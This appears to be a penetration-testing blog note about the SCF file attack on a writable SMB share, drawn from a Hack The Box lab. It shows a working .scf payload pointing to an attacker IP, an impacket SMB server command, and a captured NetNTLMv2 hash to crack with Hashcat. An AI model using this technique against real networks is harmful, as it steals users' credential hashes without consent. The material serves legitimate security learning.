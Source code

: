 ```yaml
---
description: >-
  SMB Share with writting Permissions (SCF Attack)
title:  SMB Share with writting Permissions (SCF Attack)              # Add title here
date: 2023-01-28 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation,  SMB Share with writting Permissions (SCF Attack)]                     # Change Templates to Writeup
tags: [exploitation, scf attack, smb with writting permissions]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### SCF Attack
[SCF Attack](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
First we need to write a file inside the share with writting permissions:
```bash
(root㉿kali)-[/mnt/tempMount/Users/Public]
└─# cat test.scf  
[Shell]
Command=2
IconFile=\\10.10.14.4\shareFolder\smbFile
[Taskbar]
Command=ToggleDesktop
```
Next, we start an SMB server in our machine:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```
If someone tries to open our .scf file we'll receive the hash of the user:
```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

...
[*] Incoming connection (10.10.10.103,58241)
[*] AUTHENTICATE_MESSAGE (HTB\amanda,SIZZLE)
[*] User SIZZLE\amanda authenticated successfully
[*] amanda::HTB:aaaaaaaaaaaaaaaa:7fac1cf575b106f729106442743f4137:010100000000000000347f518833d901cb29f904b7bdd5a80000000001001000690055004d0059004b007a005000490003001000690055004d0059004b007a00500049000200100047004100690072005300730078006f000400100047004100690072005300730078006f000700080000347f518833d90106000400020000000800300030000000000000000100000000200000c3e9d2d43adc1d14baf67b8123f7a2fb95d797a9d1c9e7489c4f47ff657f2e810a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003400000000000000000000000000
...
[*] Remaining connections []
```
We can try to crack it with [Hashcat](https://shuciran.github.io/posts/Hashcat/)
